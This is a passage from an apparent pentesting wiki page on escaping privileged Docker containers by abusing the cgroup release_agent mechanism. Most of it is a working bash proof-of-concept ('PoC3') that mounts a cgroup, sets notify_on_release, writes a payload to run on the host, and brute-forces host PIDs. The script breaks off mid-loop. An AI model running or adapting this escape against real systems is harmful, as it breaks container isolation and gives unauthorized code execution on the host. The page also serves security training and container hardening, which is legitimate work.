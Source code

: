 ```bash

# Reads the output
cat /output
```
{% endcode %}

Find an **explanation of the technique** in:

{% content-ref url="docker-breakout-privilege-escalation/docker-release_agent-cgroups-escape.md" %}
[docker-release\_agent-cgroups-escape.md](docker-breakout-privilege-escalation/docker-release\_agent-cgroups-escape.md)
{% endcontent-ref %}

#### Privileged Escape Abusing release\_agent without known the relative path - PoC3

In the previous exploits the **absolute path of the continer inside the hosts filesystem is disclosed**. However, this isn’t always the case. In cases where you **don’t know the absolute path of the continer inside the host** you can use this technique:

{% content-ref url="docker-breakout-privilege-escalation/release_agent-exploit-relative-paths-to-pids.md" %}
[release\_agent-exploit-relative-paths-to-pids.md](docker-breakout-privilege-escalation/release\_agent-exploit-relative-paths-to-pids.md)
{% endcontent-ref %}

```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
  if [ $((${TPID} % 100)) -eq 0 ]
```